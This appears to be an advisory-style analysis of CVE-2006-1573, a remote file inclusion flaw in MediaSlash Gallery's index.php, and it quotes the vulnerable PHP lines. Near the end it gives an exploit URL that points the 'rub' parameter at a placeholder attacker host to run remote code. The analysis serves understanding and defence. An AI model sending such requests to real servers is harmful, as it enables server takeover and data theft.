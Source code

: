 Based on the provided content, here's an analysis of the vulnerability:

**CVE ID:** CVE-2006-1573

**Root cause of vulnerability:**
* The vulnerability is due to a lack of input validation in the `index.php` script of MediaSlash Gallery. Specifically, the `rub` variable obtained from the GET request is not validated.

**Weaknesses/vulnerabilities present:**
* **Remote File Inclusion (RFI):** The script uses the unsanitized `rub` variable to construct a path for inclusion using the `include()` function. This allows an attacker to include a remote file by supplying a URL as the value for the `rub` parameter.
* **Lack of Input Validation:** The primary weakness is the absence of any validation or sanitization of the `rub` GET parameter before it is used in the `include()` statement.

**Impact of exploitation:**
* **Arbitrary Code Execution:** By including a malicious file, an attacker can execute arbitrary code on the server with the privileges of the web server. This can lead to complete server compromise, data theft, or other malicious activities.

**Attack vectors:**
* **HTTP GET Request:** The vulnerability can be exploited using a crafted HTTP GET request targeting the vulnerable `index.php` script. The attacker provides the malicious URL in the `rub` parameter.

**Required attacker capabilities/position:**
* **Remote access:** The attacker needs to be able to send HTTP requests to the vulnerable server over the network.
* **Knowledge of vulnerable script:** The attacker needs to know the location of the vulnerable `index.php` script and the parameter name `rub`.
* **Hosting malicious code:** The attacker requires a server or hosting space where their malicious script is hosted.

**Technical Details:**
* The vulnerable code snippet:
```php
27 . $rub = @$_GET["rub"];
...
57 . $page_menu = ''.$rub.'/index.php';
489. <? include($page_menu); ?>
```
* The attacker includes a malicious file like this: `http://[trajet]/[path]/index.php?rub=http://[attacker]`

The included content provides more details than a typical CVE description, including the specific line numbers in the code where the vulnerability exists, the exact method of exploitation, and the code snippet involved.